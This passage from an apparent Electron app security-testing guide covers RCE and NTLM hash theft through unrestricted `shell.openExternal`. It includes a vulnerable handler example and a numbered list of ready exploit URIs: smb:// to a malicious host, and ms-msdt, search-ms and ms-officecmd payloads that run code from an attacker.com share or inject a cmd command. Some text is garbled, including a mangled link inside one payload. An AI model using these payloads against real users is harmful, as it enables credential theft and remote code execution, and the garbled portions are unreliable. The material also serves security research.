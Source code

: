 ```jsx
```

The desktop app will load content in the desktop window from the following origin: 

`http://anydomain.com/oauth`

More of the similar regular expressions could be implemented, exploitation requires manual review.

## 1-click RCE or NTLM hash stealing through `shell.openExternal`

**For more details see the original research:** [****1-click RCE in Electron Applications****](https://medium.com/@shabarkin/1-click-rce-in-electron-applications-79b52e1fe8b8)

Look for the usage of `shell.openExternal`, the URL parameter passed to the function should be user controlled. By reviewing the `new-window` event listener, most applications used `shell.openExternal` to open links in the browser, but the problem is that the URL protocol is not limited. When function `window.open("smb://malicious.com")` is invoked, the desktop application will enforce the device to start an smb connection to the malicious server, an attacker could steal the NTLM hashes of the user. This technique can be used in the Red Team activities.

Search for the sinks of the `shell.openExternal`:

```jsx
grep -HanrE "shell\.openExternal\("
```

The example of a vulnerable code snippet where `newUrl` is passed to `shell.openExternal(newUrl)` without limiting the URL protocol: 

```jsx
mainWindow.webContents.on("new-window", (event, newUrl, frameName, disposition, options) => {
    const allowedUrls = ['oauth', 'drive','onedrive','google'];
    const openInWindow = allowedUrls.some(url => newUrl.includes(url));

    if (!openInWindow) {
      event.preventDefault();
      shell.openExternal(newUrl);

    } else {
      event.preventDefault();
      const oauthPopUp = new BrowserWindow({
        parent: mainWindow,
      });
      oauthPopUp.loadURL(newUrl)
    }
});
```

These payloads are based on the example above (The application can use the `shell.openExternal` function in other places, thus you need to find the way to deliver the URL into the function): 

```jsx
1. HTLM Hash Stealing -> window.open("smb://malicious.com")
2. Client-side RCE #1 -> window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
3. Client-side RCE #2 -> window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%[5Cattacker.com](http://5cattacker.com/)%5Csmb_share%5Ctools&displayname=Important%20update")
4. Client-side RCE #3 -> window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
```
